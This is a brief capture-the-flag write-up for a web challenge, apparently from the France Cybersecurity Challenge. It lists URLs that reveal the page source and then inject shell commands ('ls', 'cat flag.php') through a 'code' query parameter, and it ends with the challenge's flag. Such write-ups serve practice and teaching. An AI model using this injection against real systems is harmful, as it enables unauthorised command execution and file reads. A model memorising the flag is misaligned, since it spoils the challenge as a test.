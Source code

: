 First step : 
```powershell http://challenges2.france-cybersecurity-challenge.fr:5001/```<br />
Second step : 
```powershell http://challenges2.france-cybersecurity-challenge.fr:5001/?source=1```<br />
Third step : 
```powershell http://challenges2.france-cybersecurity-challenge.fr:5001/?code=ls```<br />
Fourth step : 
```powershell http://challenges2.france-cybersecurity-challenge.fr:5001/?code=cat%20flag.php```<br />

And look the source code : 

$flag = "FCSC{5d969396bb5592634b31d4f0846d945e4befbb8c470b055ef35c0ac090b9b8b7}";

